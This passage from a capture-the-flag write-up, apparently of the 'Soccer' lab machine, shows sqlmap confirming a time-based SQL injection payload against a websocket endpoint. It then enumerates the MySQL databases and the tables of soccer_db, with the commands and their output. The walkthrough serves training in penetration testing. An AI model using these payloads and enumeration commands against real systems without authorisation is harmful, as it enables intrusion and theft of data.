 ```
    Payload: {"id": "1234 AND (SELECT 5403 FROM (SELECT(SLEEP(5)))gMBy)"}
---
[21:32:37] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
...[snip]...

```

It’s using the `OR` structure for boolean rather than `UNION`.

### Enumerate DB

#### List Databases

Now that `sqlmap` has found an injection, I’ll up-arrow and add `--dbs` to the previous command. Theads are safe to do in a boolean injection, so I’ll add `--threads 10` to speed it up. It will pick up where it left off and list the available databases:

```

oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
...[snip]...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
...[snip]...

```

#### List Tables in soccer\_db

`soccer_db` seems like the only non-default DB. I’ll replace `--dbs` with `-D soccer_db` to specify that database and then add `--tables` to list the tables:

```

oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
...[snip]...
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
...[snip]...

```

There’s only one.
